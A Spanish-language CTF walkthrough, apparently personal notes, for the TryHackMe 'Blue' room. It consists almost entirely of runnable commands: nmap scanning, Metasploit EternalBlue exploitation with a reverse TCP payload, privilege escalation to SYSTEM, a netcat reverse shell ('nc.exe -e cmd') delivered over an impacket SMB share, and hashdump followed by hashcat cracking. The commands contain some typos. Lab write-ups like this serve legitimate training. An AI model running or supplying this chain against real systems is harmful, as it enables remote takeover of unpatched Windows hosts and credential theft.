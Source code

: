 https://tryhackme.com/r/room/blue
# Fase de reconocimiento
## Buscar puertos abiertos
```
nmap -sT -Pn -p- --open --min-rate 5000 -T5 -vvv -n 10.10.101.248 -oG allports
```
![[Pasted image 20240427181452.png]]
## Reconocimiento de servicios
```
nmap -sCV -p135,139,445,3389 10.10.101.248 -oN targeted
```
![[Pasted image 20240427183221.png]]
## crackmapexec
```
crackmapexec smb 10.10.101.248
```
![[Pasted image 20240427181551.png]]

# Fase de ataque
## Metasploit
```
msfconsole
```
```
msf6> search eternalblue
```
![[Pasted image 20240427182201.png]]
```
msf6> use 0
```
```
msf6> show options
```
```
msf6> set RHOSTS 10.10.101.248
```
En este caso usamos shell porque queremos
```
msf6> set payload windows/x64/shell/reverse_tcp
```
En este caso por la VPN:
```
set LHOST 10.9.1.161
```
```
msf6> run
```
[-] ==pwned!==

# Privilege Escalation
```
msf6> search shell_to
```
![[Pasted image 20240427190335.png]]

```
msf6> use 0
```
```
msf6> show options
```
```
msf6> set SESSION 1
```
En este caso por la VPN:
```
msf6>set LHOST 10.9.1.161
```
```
msf6> run 
```
```
msf6> sessions -l
```
```
msf6> sessiobs -i 2
```
```
meterpreter> getsystem
```
[+] ==pwned!==

## Shell completa
1. Abrimos un smbserver
```
impacket-smbserver smbFolder $(pwd) -smb2support
```
2. Copiamos a través de archivos compartidos el netcat
```
copy \\<ip2>\smbFolder\nc64.exe C:\Windowss\Temp\nc.exe
```
3. Nos ponemos en escucha por el puerto 445
```
rlwrap nc -nlvp 445
```
4. Ejecutamos el netcat
```
C:\Windows\Temp\nc.exe -e cmd <ip> 445
```


# Post Explotation
```
meterpreter> ps
```
```
meterpreter> migrate ID_PROCESO
```
![[Pasted image 20240427192129.png]]
```
meterpreter> hashdump
```
![[Pasted image 20240427192123.png]]
```
hashcat -m 1000 hash /usr/share/wordlist/rockyou.txt
```
Found!

Buscar flags
```
meterpreter> search -f flag.txt
```